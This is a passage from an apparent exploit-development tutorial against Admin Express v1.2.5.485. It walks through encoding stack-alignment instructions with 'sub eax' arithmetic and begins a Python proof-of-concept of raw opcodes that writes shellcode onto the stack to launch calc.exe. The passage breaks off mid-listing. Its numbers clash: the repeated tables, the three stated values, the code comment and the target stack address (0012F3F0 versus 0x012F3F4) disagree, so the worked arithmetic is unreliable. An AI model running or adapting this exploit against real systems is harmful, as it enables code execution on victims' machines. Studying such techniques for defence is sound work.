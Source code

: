 The second value is:

```console
255 = 85(55) + 85 (55) + 85(55)
255 = 85(55) + 85 (55) + 85(55)
232 = 78(4E) + 77 (4D) + 77(4D)
160 = 54(36) + 54 (36) + 56(38)
_______________________________
364E5555    364D5555
```

The last value is:

```console
255 = 85(55) + 85 (55) + 85(55)
255 = 85(55) + 85 (55) + 85(55)
232 = 78(4E) + 77 (4D) + 77(4D)
160 = 54(36) + 54 (36) + 56(38)
_______________________________
364E5555    364D5555    384D5555
```

Our three values are: `364D5555`, `364D5555`, `384E5555`. Whenever you do this math, it changes the stack pointer value to `0012F3F0`. Before we do this math though, we will execute a few instructions. They are:
1. `push esp` - to get the value of the current stack pointer on the stack.
2. `pop eax` - to pop the stack pointer value into EAX.

After these instructions, we begin commencement of our subtraction math. After the subtraction math, we will then execute a few more instructions. They are:
1. `push eax` - EAX contains the value of the `0012F3F0`, which is where we want our stack pointer value to be, since we will be writing our shellcode up the stack, to lower memory addresses.
2. `pop esp` - this will pop the value of EAX (`0012F3F0`) into the stack pointer.

One thing before we start- `\x2d` is the opcode for `sub eax`, which is subtracting from EAX.

After all these instructions are executed, we can begin writing our shellcode to the stack! Here is the updated PoC, at this point:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit


# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
```